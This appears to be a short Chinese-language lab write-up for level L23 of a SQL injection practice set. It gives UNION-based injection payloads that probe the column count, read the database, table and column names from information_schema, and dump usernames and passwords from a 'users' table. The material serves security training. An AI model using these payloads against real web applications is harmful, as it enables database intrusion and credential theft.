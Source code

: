 

# L23



## 获取列数



```sql
/?id=1' order by 1 ||'1
```



##  获取数据库名



```sql
/?id=-1' union select '1',database(),'3
```



## 获取表名



```sql
/?id=-1' union select '1',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'3
```



## 获取列名



```sql
/?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),'3
```



## 获取用户名与密码



```sql
/?id=-1' union select 1,(select group_concat(username) from security.users ),'3
/?id=-1' union select 1,(select group_concat(password) from security.users ),'3
```





# L24
